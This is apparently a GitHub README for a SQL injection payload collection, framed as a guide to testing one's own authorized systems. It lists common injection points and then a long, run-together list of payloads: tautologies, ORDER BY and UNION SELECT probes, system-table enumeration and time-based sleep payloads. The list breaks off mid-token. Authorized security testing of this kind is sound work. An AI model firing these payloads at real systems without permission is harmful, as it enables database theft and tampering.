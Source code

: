 # SQL Injection Testing Guide
**⚠️ Important Note:** Always ensure you have explicit permission to test the target systems. Unauthorized testing can be illegal and unethical. Use these techniques only in controlled environments or on platforms where you have authorization.

## Overview

SQL Injection (SQLi) is a vulnerability that allows attackers to interfere with the queries an application makes to its database. This repository contains a collection of SQL injection payloads to help you test for these vulnerabilities.


### 2. **Testing for SQL Injection**

Follow these steps to test your platform for SQL injection vulnerabilities:

#### **A. Identify Injection Points**

Usually, it's tested in search boxes, user inputs and urls. So look for the following:

1. **URL Parameters**: Look for parameters in the URL, such as `http://example.com/page?id=1`.
2. **Form Inputs**: Test fields in forms, like search bars or login forms.
3. **HTTP Headers**: Check custom headers or cookies that might be used in SQL queries.
4. **API Endpoints**: Test any API endpoints that interact with a database.

#### **B. Apply SQL Injection Payloads**

1. **Injection Tests**

   Start with simple payloads to see if input fields are vulnerable:
   ```sql
   ' OR '1'='1
sql

2. **Injection Rampage**

  Or just use the big guns. Note go and remove peaces of code as you're testing, usually I go test peaces of this code to check if something changes:
  ```sql
' '' ` `` , " "" / // \ \\ ; ' or " -- or #  ' OR '1 ' OR 1 -- - " OR "" = " " OR 1 = 1 -- - ' OR '' = ' '=' 'LIKE' '=0--+  OR 1=1 ' OR 'x'='x ' AND id IS NULL; -- '''''''''''''UNION SELECT '2 %00 /*…*/  +		addition, concatenate (or space in url) ||		(double pipe) concatenate %		wildcard attribute indicator  @variable	local variable @@variable	global variable   # Numeric AND 1 AND 0 AND true AND false 1-false 1-true 1*56 -2   1' ORDER BY 1--+ 1' ORDER BY 2--+ 1' ORDER BY 3--+  1' ORDER BY 1,2--+ 1' ORDER BY 1,2,3--+  1' GROUP BY 1,2,--+ 1' GROUP BY 1,2,3--+ ' GROUP BY columnnames having 1=1 --   -1' UNION SELECT 1,2,3--+ ' UNION SELECT sum(columnname ) from tablename --   -1 UNION SELECT 1 INTO @,@ -1 UNION SELECT 1 INTO @,@,@  1 AND (SELECT * FROM Users) = 1	  ' AND MID(VERSION(),1,1) = '5';  ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --   Finding the table name   Time-Based: ,(select * from (select(sleep(10)))a) %2c(select%20*%20from%20(select(sleep(10)))a) ';WAITFOR DELA
```

